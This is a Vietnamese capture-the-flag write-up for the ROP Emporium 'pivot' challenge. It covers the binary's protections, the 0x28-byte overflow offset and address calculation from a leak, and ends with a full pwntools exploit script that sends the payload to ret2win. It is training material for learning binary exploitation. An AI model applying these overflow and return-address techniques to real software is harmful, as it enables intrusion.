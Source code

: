 # ROP_Emporium - pivot

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
pivot: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0e9fb878206e1858b042597fd36c51aa07497121, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'
```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Ở đây chỉ có 2 hàm thú vị:

Hàm main()

![main.png](images/main.png)

Và hàm pwnme()

![pwnme.png](images/pwnme.png)

# 2. Ý tưởng

Bài này leak cho ta địa chỉ của chuỗi đầu vào -> leak được libc từ đó kiếm được libc_base

# 3. Khai thác

Ta cũng sẽ tìm offset tới rip bằng gdb như sau:

![offset.png](images/offset.png)

Vậy offset là 0x28 bytes.

Do bài này leak được địa chỉ nên ta sẽ dùng:

```p.recvuntil(b"The Old Gods kindly bestow upon you a place to pivot: 0x")

leak = int(p.recv(12),16)

print("[+]LEAK:", hex(leak))```

để leak địa chỉ và in ra màn hình.

- Dùng gdb để chạy chương trình và dùng **info functions** để xem các hàm chương trình có khi chạy ta phát hiện ra có hàm ret2win():

![win.png](images/win.png)

Ta tìm offset giữa địa chỉ leak được và địa chỉ hàm ret2win():

![offset2.png](images/offset2.png)

Như vậy địa chỉ hàm ret2win() = leak + 0x1e2b71

Full code:
```
from pwn import*

context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./pivot', checksec=False)

p = process("./pivot")

gdb.attach(p, gdbscript='''
#b*pwnme+113
#c
''')
adget = elf.sym['usefulGadgets']

p.recvuntil(b"The Old Gods kindly bestow upon you a place to pivot: 0x")
leak = int(p.recv(12),16)
print("[+]LEAK:", hex(leak))
win = leak + 0x1e2b71

payload = flat(
    cyclic(0x28),
    win
      )
p.sendlineafter(b"> ",payload)
p.sendlineafter(b"> ",payload)
p.interactive()

```

# 4. Lấy flag

![flag.png](images/flag.png)


